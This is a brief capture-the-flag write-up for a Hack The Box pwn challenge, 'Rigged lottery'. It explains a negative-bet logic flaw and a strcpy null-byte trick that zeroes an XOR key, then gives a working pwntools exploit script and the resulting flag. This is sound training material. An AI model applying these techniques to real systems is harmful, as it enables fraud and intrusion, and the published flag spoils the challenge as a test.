



# Rigged lottery

Solving this task requires chaining two bugs – binary and logical.
There is an easy way to get money: we can bet a negative number of coins and so get rich when we lose. This issue is shown on the Figure 1.



Figure 1 – Vulnerability in the binary

Then, in the claim function, we see that the flag gets XORed with the lucky number. We can set it with \x00 using the generate function, as strcpy puts \00 after the buffer. Vulnerable function is shown on the Figure 3.


Figure 2 – Vulnerable function in the binary

If we send consequent values from 32 to 0, the buffer will be nulled, and we'll get the plain flag.
The final exploit:

```Python
from pwn import *
io = remote("docker.hackthebox.eu", 30321)
for i in range(32, -1, -1):
   io.recvuntil("Exit.")
   io.sendline('1')
   io.recvuntil(":")
   io.sendline(f'{i}')
io.recvuntil("Exit.")
io.sendline('2')
io.recvuntil("?")
io.sendline(f'-100')
io.recvuntil("Exit.")
io.sendline('3')
print(io.recvall())
```

The result of the exploit execution can be seen on the Figure 3.



Figure 3 – Result of the exploit and the flag

Flag: HTB{strcpy_0nly_c4us3s_tr0ubl3!}.
